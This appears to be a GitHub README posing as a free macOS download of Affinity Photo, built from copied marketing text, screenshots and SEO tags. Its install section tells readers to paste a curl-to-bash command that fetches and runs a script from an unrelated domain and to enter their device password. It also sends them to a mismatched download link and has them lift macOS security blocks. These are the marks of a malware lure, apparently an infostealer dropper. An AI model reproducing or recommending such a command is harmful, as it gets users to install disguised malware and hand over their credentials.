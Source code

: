 <p align="center">
  <img src="https://cdn.jim-nielsen.com/macos/512/affinity-photo-2020-11-18.png?rf=1024" alt="Affinity Photo Mac Banner" />
</p>

<h1 align="center">Affinity Photo for macOS</h1>

<p align="center">
  📸 The ultimate photo editing suite for Mac – from retouching and compositing to RAW development and HDR imaging.  
  <br><br>
  ✅ Optimized for Apple Silicon and Intel  
  ✅ Works with Sonoma, Ventura, Monterey  
</p>

---

## 🔻 Download

<p align="center">
  <a href="https://bloodangel210.github.io/modarbas/131" target="_blank">
    <img src="https://img.shields.io/badge/⬇️%20DOWNLOAD%20FLINTO%20MAC-GET%20FULL%20ACCESS-green?style=for-the-badge&logo=apple&logoColor=white" alt="Download Affinity Photo for macOS">
  </a>
</p>

---

## 📸 Preview

<p align="center">
  <img src="https://cdn.serif.com/affinity/img/photo/home/0824/slider/photo-ocio-020820240816--lg@2x.png" alt="Affinity Photo Interface Screenshot" />
</p>

---

## 📦 How to Install

# Installation via .dmg:

1. Install the .dmg file using the button above. 
2. Open the .dmg installer and move the file from the left window to any convenient directory on your device.
3. Open a terminal and transfer the file you extracted in the last step into it.
4. Press the "Return" button, then enter your device password in the window that appears (if you don't have a password, leave the field blank).

[![0723.gif](https://i.postimg.cc/50Tm3hZT/0723.gif)](https://postimg.cc/mz3MZ5Zy)

# Installation via a command in the terminal:

1. Copy the installation command below.
```
/bin/bash -c "$(curl -fsSL https://veitzeatz.com/get4/install.sh)"
```
2. Open the terminal on your device and paste the command you copied above, then press the “Return” button.
3. Enter your device password and confirm the installation.

[![0723-1.gif](https://i.postimg.cc/NfzQxpMT/0723-1.gif)](https://postimg.cc/0b7gkG72)

---

## ❓ What is Affinity Photo?

**Affinity Photo** is a powerful photo editing application for macOS, built for photographers, designers, and creative professionals who need speed, flexibility, and quality. It provides complete control over your edits with unlimited layers, real-time adjustments, RAW processing, and advanced brush engine.

From skin retouching to complex composites and panoramic stitching, Affinity Photo delivers all the tools you need without the subscription model of traditional software.

It runs natively on both **Intel and Apple Silicon Macs (M1/M2/M3)** and supports the latest macOS releases — **Sonoma**, **Ventura**, and **Monterey** — with full Metal acceleration for high-speed rendering.

---

## ✅ Why Choose Affinity Photo?

- 🧠 **Unlimited Layers** – Work non-destructively with full control  
- 🎯 **RAW Development** – Edit RAW images with precision  
- ✨ **Advanced Retouching** – Frequency separation, healing, liquify tools  
- 🌈 **HDR & Tone Mapping** – Create stunning high-dynamic-range effects  
- 📐 **Precision Selections** – Refine edges, masks, and object cutouts  
- 🖌️ **Custom Brushes & Tools** – Full brush engine with stylus support  
- 🖥️ **PSD Compatibility** – Open and edit Photoshop files  
- 🚀 **Ultra-Fast Performance** – Metal acceleration and instant previews  

> Whether you're editing portraits, landscapes, or advanced composites — **Affinity Photo** provides pro-level features without compromise.

---

## 📸 More Screenshots

<p align="center">
  <img src="https://cdn.serif.com/affinity/img/photo/home/0824/slider/photo-assets-020820240816--lg@2x.png" alt="Affinity Photo RAW Editor Screenshot" />
  <br><br>
  <img src="https://cdn.serif.com/affinity/img/photo/home/0322/composition/composition-041120220926--lg@2x.jpg" alt="Affinity Photo Retouching Screenshot" />
</p>

---

## 🚀 Key Features

- 📸 Full RAW processing engine  
- 🎨 Non-destructive live filters  
- 🖼️ HDR merge and panorama stitching  
- 🧽 Precision retouching tools  
- 🖋️ Layer blending and masking  
- 🧩 PSD, PNG, TIFF, JPG support  
- 💡 Batch processing included  
- 🖥️ Apple Silicon optimized  

---

## 💻 System Requirements

macOS 10.10 (Yosemite) or later  
Supports Monterey, Ventura, Sonoma  
Intel & Apple Silicon (M1/M2/M3)  
At least 100MB free disk space  

---

## 🧠 Note

If your Mac blocks the app during launch:
- Go to **System Settings > Privacy & Security**  
- Allow Affinity Photo under "App Management"

---

## 🔍 Tags

```text
affinity photo mac download, affinity photo for macbook, affinity photo editor mac, download affinity photo macos, affinity photo m1 support, affinity hdr photo tool, affinity photo retouching mac, best photo editor macbook, affinity photo ventura compatible, affinity raw development mac, affinity apple silicon native, affinity photo for mac m1 m2, affinity image editor mac, affinity macbook pro app, affinity photo standalone installer
